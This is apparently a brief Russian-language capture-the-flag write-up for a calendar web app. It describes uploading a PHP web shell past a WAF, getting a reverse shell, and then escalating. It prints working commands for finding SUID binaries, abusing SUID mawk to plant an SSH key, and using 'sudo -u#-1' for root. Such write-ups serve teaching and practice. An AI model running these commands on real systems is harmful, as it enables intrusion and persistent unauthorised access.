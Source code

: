 # Описание 
Наконец-то написал свой календарик под ключ!

# Решение 
Регаем пользователя

<img width="1003" alt="image" src="https://github.com/user-attachments/assets/8343b188-f131-49b7-be81-9e7271b7a1a7" />


Подгружаем при помощи ссылки php-шелл на место аватарки, байпаснув несложный WAF 


После получения RCE, пробрасываем reverse-shell

Далее проводим перечисление ресурсов системы доходим до:

```
find / -perm /4000 2>/dev/null
```

Через найденный suid-бит на awk записываем ssh ключ в директорию пользователя 

```
mawk 'BEGIN { print "ssh-rsa <key>" > "/home/sakura/.ssh/authorized_keys" }'
```

Повышение до рута через уязвимую версию sudo:
```
sudo -u#-1 /bin/bash
```
